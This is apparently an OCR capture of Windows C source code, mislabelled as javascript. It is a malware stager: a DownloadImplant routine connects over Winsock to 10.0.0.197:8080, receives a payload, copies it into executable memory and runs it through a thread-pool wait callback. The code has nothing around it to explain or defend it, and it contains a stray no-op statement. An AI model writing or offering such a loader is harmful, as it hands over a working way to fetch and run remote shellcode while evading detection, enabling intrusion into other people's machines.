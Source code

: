 ```javascript

	DownloadImplant();

	HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
	LPVOID scodeAddress = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	RtlMoveMemory(scodeAddress, data, sizeof(data));

	PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)scodeAddress, NULL, NULL);
	SetThreadpoolWait(threadPoolWait, event, NULL);
	WaitForSingleObject(event, INFINITE);

	return 0;

}


void DownloadImplant() {
	
	WSADATA wsa;
	SOCKET s;
	struct sockaddr_in cleanServer;
	int response_size;

	//Initialize Winsock
	if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
	{
		printf("Error initializing Winsock\n");
		exit(1);
	}

	//Create socket
	if ((s = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET)
	{
		printf("Could not create socket : %d\n", WSAGetLastError());
		exit(1);
	}

	//cleanServer.sin_addr.s_addr = inet_addr("10.0.0.197"); //DEPRECATED
	InetPtonA(AF_INET, "10.0.0.197", &cleanServer.sin_addr.s_addr);
	cleanServer.sin_family = AF_INET; //IPv4 Protocol
	cleanServer.sin_port = htons(8080); //Port number

	//If no error occurs, connect returns zero. Otherwise, it returns
	//SOCKET_ERROR, and a specific error code can be retrieved by calling //WSAGetLastError().
	if (connect(s, (struct sockaddr*)&cleanServer, sizeof(cleanServer)) < 0)
	{
		printf("Error establishing connection with server\n");
		 exit(1);
	}

	if ((response_size = recv(s, (char*)data, 2048, 0)) == SOCKET_ERROR) {
		printf("Receving data failed\n");
	}
	printf("%s\n", data);
	printf("size: %d\n", sizeof(data));

	data[response_size];

	closesocket(s);

}
```
